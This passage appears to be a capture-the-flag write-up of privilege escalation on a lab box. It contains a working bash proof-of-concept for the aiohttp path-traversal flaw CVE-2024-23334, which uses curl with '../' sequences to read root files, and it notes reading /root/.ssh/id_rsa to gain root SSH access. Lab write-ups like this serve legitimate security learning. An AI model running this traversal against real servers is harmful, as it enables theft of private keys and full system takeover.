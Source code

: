 ```
![image]()

## Privilege Escalation

To start, i upload ```linpeas.sh``` and run. Read the report, i find out that ```Server: Python/3.9 aiohttp/3.9.1```, and with researching, i find poc to exploit ```CVE-2024-23334``` in [github repo](https://github.com/z3rObyte/CVE-2024-23334-PoC)

![image]()

Upload the poc

```
exploit.sh
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

Run poc and we can get the root flag. Also we can access to /root/.ssh/id_rsa to get ssh key of root.

![image]()

Connect and WE ARE ROOT !! 

# Box Rooted 

![image]()



If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
